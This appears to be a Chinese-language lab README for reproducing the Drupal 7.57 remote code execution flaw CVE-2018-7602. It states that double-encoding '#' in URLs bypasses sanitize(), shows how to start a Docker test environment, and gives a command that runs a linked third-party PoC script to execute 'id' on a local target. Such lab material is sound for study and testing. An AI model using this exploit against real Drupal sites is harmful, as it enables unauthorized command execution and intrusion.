# Drupal 远程代码执行漏洞（CVE-2018-7602）

* 影响软件：drupal
* 方式：对URL中的#进行编码两次，绕过sanitize()函数过滤
* 效果：任意命令执行

## 漏洞环境

执行如下命令启动drupal 7.57的环境：

```bash
docker compose up -d
```

环境启动后，访问 `http://your-ip:8081/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

参考[pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)的PoC。

如下图所示，执行以下命令即可复现该漏洞。示例命令为 `id`，如图红框中显示，可以执行该命令。

```bash
# "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/
```

![](1.png)

